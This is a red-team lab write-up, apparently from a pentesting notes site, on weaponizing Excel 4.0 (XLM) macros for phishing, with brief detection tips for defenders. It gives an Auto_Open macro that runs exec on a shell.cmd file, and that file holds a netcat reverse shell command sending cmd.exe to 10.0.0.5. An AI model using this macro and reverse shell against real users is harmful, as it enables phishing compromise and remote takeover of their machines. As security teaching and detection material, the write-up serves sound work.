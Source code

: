 # Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As usual, the contents of shell.cmd is a simple netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../.gitbook/assets/phishing-xlm-procexp.png)

Having a quick look at the file with a hex editor, we can see a suspicious string `shell.cmd` immediately, which is of course good news for defenders:

![](../../.gitbook/assets/phishing-xlm-hex.png)

![](../../.gitbook/assets/phishing-xlm-strings.png)

## References

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/" %}

